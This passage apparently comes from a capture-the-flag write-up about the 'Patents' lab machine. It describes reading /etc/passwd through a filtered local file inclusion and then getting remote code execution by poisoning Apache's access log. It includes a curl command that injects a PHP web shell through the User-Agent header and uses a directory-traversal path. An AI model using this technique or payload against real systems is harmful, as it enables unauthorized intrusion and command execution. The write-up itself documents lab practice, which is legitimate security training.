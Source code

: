 After a bit of `playing` around, I was able to bypass the filter and got to read `/etc/passwd`.

![LFI /etc/passwd](/assets/img/posts/patents/webpage-lfi.png)

In order for us to get code-execution, we can use `log-poisoning` of the apache2 access log. For this, we can change our user-agent to any `php-code`. This php-code will then be written into the access.log file, where it will be interpreted once we exploit the `directory-traversal`.
```bash
root@silence:~# curl "http://10.10.10.173/getPatent_alphav1.0.php?id=....//....//....//....//....//var/log/apache2/access.log" -H 'User-Agent: <?php system($_GET['cmd']); ?>'
```
Using `curl`, we can `poison` the apache2 log. Now the access.log file contains our `user-agent`, which allows us to execute arbitrary commands by supplying the cmd GET parameter.

![RCE via log-poisoning](/assets/img/posts/patents/webpage-logpoison-rce.png)

